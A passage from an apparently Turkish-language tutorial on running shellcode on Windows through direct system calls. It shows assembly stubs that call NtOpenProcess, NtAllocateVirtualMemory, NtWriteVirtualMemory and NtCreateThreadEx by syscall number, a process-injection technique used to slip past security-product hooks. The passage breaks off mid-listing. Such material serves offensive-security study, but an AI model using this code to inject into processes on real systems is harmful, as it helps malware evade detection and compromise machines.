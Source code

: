 ![](../../../images/posts/direct-syscalls/diagram2.png)

## **Direct Systemcall ile Shellcode Çalıştırma**

Öncelikle oluşturduğumuz Assembly projesini aşağıdaki kod ile güncelleyelim:

```asm
.data 
extern NtOpenProcessSSN:DWORD
extern NtAllocateVirtualMemorySSN:DWORD
extern NtWriteVirtualMemorySSN:DWORD
extern NtCreateThreadExSSN:DWORD
extern NtWaitForSingleObjectSSN:DWORD
extern NtCloseSSN:DWORD

.code
My_NtOpenProcess PROC 
	mov r10, rcx
	mov eax, NtOpenProcessSSN       
	syscall                         
	ret                             
My_NtOpenProcess ENDP

My_NtAllocateVirtualMemory PROC    
	mov r10, rcx
	mov eax, NtAllocateVirtualMemorySSN      
	syscall                        
	ret                             
My_NtAllocateVirtualMemory ENDP

My_NtWriteVirtualMemory PROC 
	mov r10, rcx
	mov eax, NtWriteVirtualMemorySSN      
	syscall                        
	ret                             
My_NtWriteVirtualMemory ENDP 

My_NtCreateThreadEx PROC
    mov r10, rcx
	mov eax, NtCreateThreadExSSN      
	syscall                        
```